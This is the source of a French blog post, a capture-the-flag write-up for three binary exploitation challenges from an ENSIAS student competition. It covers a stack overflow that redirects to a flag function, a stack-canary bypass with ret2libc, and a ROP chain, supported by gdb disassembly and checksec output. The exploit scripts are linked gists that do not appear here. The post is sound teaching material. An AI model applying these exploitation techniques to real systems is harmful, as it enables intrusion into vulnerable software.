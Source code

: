 ```yaml
---
layout: post
title: "[Writeups PART 1] MCSC2016: ENSIAS Qualification "
---
```

Bonjour tout le monde,

Je sais que je suis très inactif sur ce blog, ce n'est pas à cause de la paresse mais à cause du programme chargé des études, (les projets, les examens...), je ne trouve pas le temps de rédiger, même si j'ai beaucoup d'idées d'articles très instructifs et intéressants. Je pense qu'en 2016 je serai plus actif car j'aurai terminé mon dernier semestre.

Avant hier, le Mardi 22 décembre 2015 nous avons organisé une compétition locale (CTF) au bénéfice des étudiants de l'ENSIAS leur permettant de s'évaluer et d'explorer leurs compétences dans la sécurité informatique, ainsi que de choisir ceux qui vont représenter l'école (ENSIAS) à la compétition nationale MCSC2016.













Le scoreboard final:

![Alt text](/public/images/scoreboard.png "scoreboard")

Cet article dû à la demande de plusieurs étudiants voulant que je fassent des writeups des épreuves. En général, les épreuves on été très facile, ils ne demandaient que de la concentration et quelques compétences techniques.

Sans trop tarder là-dessus on commence la partie la plus chaude :smile:

Le répo suivant contient les binaires et les ressources pour les différentes épreuves.

[https://github.com/djekmani/mcsc-writeup/tree/master/local-ensias-camp](https://github.com/djekmani/mcsc-writeup/tree/master/local-ensias-camp)

####Catégorie Pwn (Exploitation)

###### Entry 80pts
<hr>

**Task:**


![Alt text](/public/images/entry.png "entry task")

Le premier réflexe est de vérifier le service:


![Alt text](/public/images/test-serv1.png "testing")

Deux fichiers joints avec le challenge, sont le binaire du service et son code source (J'étais très généreux sur ce challenge)

Code source:

{% gist djekmani/a965de56ee376fbd6df5 %}

En analysant ce code source on remarque deux choses:

1 - Une fonction intéressante `getFlag()`  lisant un fichier `flag.txt`.


2 - La ligne 19: `read(0 , buff, 80);` on lit 80 bytes depuis stdin et on stock le buffer dans la variable `buff` déclaré 
statiquement avec une taille de 64bytes.



Strategie d'exploitation:

La vulnérabilité stack overflow dans la ligne 19 va nous permettre de contrôler le pointeur d'instruction et appeler la fonction `getFlag()`.

Maintenant on attaquera le binaire pour mettre en place notre payload.

```
file level1
level1: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=2be013c8f0e9766018f8b13d3927f59e3143ea96, not stripped

```


{% gist djekmani/13e153c74d4bf49c30a0 %}

En peut construire notre exploit tranquillement aucune mitigation n'est active, l'offset est 76bytes, notre payload: "A"*76+addr(getFlag)



L'exploit finale ressemble à ça :blush:

{% gist djekmani/10ac151b8db0746bcec4 %}

L'execution en live mode :D

![Alt text](/public/images/exp1.png "pwn1")

vous voyez, c'est très facile :laughing:


###### barpwn 200pts
<hr>

**Task:**


![Alt text](/public/images/barpwn.png "barpwn task")

```

file level3 
level3: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=a8bc20609763809a660867576010a78e1c826ad7, not stripped
root@PenLab:~/mcsc/pwn/level3# gdb ./level3 -q
Reading symbols from ./level3...(no debugging symbols found)...done.
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : disabled
gdb-peda$ 
```


On est face à un binaire 32bits compilé dynamiquement avec une [pile non executable](https://en.wikipedia.org/wiki/NX_bit) et sans [ASLR](https://fr.wikipedia.org/wiki/Address_space_layout_randomization). Ça semble facile à exploiter il ne nous reste que le contrôle de l'eip.

```
gdb-peda$ r 
Starting program: /root/mcsc/pwn/level3/level3 
your name bro: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
My little bad Boy!! Stop trying to hack system
exiting

[Inferior 1 (process 29731) exited with code 01]
Warning: not running or target is remote
gdb-peda$ disas welcome
Dump of assembler code for function welcome:
   0x080484db <+0>:	push   ebp
   0x080484dc <+1>:	mov    ebp,esp
   0x080484de <+3>:	sub    esp,0x58
   0x080484e1 <+6>:	mov    DWORD PTR [ebp-0xc],0xf1f2f3b4
   0x080484e8 <+13>:	sub    esp,0xc
   0x080484eb <+16>:	push   0x8048610
   0x080484f0 <+21>:	call   0x8048380 <printf@plt>
   0x080484f5 <+26>:	add    esp,0x10
   0x080484f8 <+29>:	mov    eax,ds:0x80498a0
   0x080484fd <+34>:	sub    esp,0xc
   0x08048500 <+37>:	push   eax
   0x08048501 <+38>:	call   0x8048390 <fflush@plt>
   0x08048506 <+43>:	add    esp,0x10
   0x08048509 <+46>:	sub    esp,0x4
   0x0804850c <+49>:	push   0x400
   0x08048511 <+54>:	lea    eax,[ebp-0x4c]
   0x08048514 <+57>:	push   eax
   0x08048515 <+58>:	push   0x0
   0x08048517 <+60>:	call   0x8048370 <read@plt>
   0x0804851c <+65>:	add    esp,0x10
   0x0804851f <+68>:	cmp    DWORD PTR [ebp-0xc],0xf1f2f3b4
   0x08048526 <+75>:	je     0x8048542 <welcome+103>
   0x08048528 <+77>:	sub    esp,0xc
   0x0804852b <+80>:	push   0x8048620
   0x08048530 <+85>:	call   0x80483a0 <puts@plt>
   0x08048535 <+90>:	add    esp,0x10
   0x08048538 <+93>:	sub    esp,0xc
   0x0804853b <+96>:	push   0x1
   0x0804853d <+98>:	call   0x80483c0 <exit@plt>
   0x08048542 <+103>:	sub    esp,0xc
   0x08048545 <+106>:	push   0x8048658
   0x0804854a <+111>:	call   0x80483a0 <puts@plt>
   0x0804854f <+116>:	add    esp,0x10
   0x08048552 <+119>:	leave  
   0x08048553 <+120>:	ret    
End of assembler dump.
gdb-peda$ 
```
On remarque qu'il y a une vérification avant l'épilogue de la fonction vulnérable lors du dépassement du buffer, il en résulte une exception qui affiche le message :


```
My little bad Boy!! Stop trying to hack system
exiting
```

Après l'analyse de la fonction `welcome()` on remarque qu'il y a une comparaison à l'instruction `welcome+68` de `0xf1f2f3b4` avec `(ebp - 0xc)`

#####TODO:

1 - Déterminer la distance entre le debut du buffer et (ebp-0xc)

2 - Réécrire  0xf1f2f3b4 dans (ebp - 0xc)

3 - Déterminer la distance entre (ebp - 0xc) et 'saved eip'

4 - ret2libc

pour ceux qui ne savent rien sur la méthode 'ret2libc' je recommande de lire cet [article](https://www.exploit-db.com/docs/17131.pdf) .

Exploit finale
{%gist djekmani/a3025232f855998f5229 %}

Execution de l'exploit:

![Alt text](/public/images/exp3.png "pwn3")

Voila! :smiley:

###### POPROP 400pts
<hr>

**Task:**


![Alt text](/public/images/poprop.png "poprop task")


Sur ce niveau [NX](https://en.wikipedia.org/wiki/NX_bit) et [ASLR](https://fr.wikipedia.org/wiki/Address_space_layout_randomization) sont activé.

On peut pas refaire ret2libc car ici on est face à l'ASLR randomisant 'libc' qui contient les addresses des fonctions (system , et la famille des fonctions exec). 

Donc on va s'appuyer sur le [ROP](https://en.wikipedia.org/wiki/Return-oriented_programming) (Return Oriented Programming), encore une fois pour ceux qui ne savent rien sur le ROP ou comment l'utiliser je vous invite à lire cet article introduisant la technique [ROP](https://www.exploit-db.com/docs/28479.pdf) sur un système 32bits.



```
file level4
level4: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, for GNU/Linux 2.6.32, BuildID[sha1]=d9cc289365b7230bd25daf4e49c1fdc9e63f1854, stripped
```


Heureusement notre binaire est compilé statiquement, cela implique que nous avons autant de gadgets qu'on le désire :wink:. Après avoir suivi la documentation sur le ROP votre exploit va ressembler à ceci:


**Exploit:**

{% gist djekmani/3f28bdf91dd43a0dc1e6 %}


L'exécution en live :smiley:


![Alt text](/public/images/exp4.png "exp4")

It's easy n'est ce pas :grin:


Pour ne pas rendre l'article ennuyeux je termine ici, et je vous promet un deuxième qui termine celui-ci en traitant les challenges web et ceux du reverse enginnering.

Si vous n'avez pas compris un passage, je serais heureux de répondre à vos questions en commentaires.

Je vous souhaite une bonne journée, à la prochaine :wink:
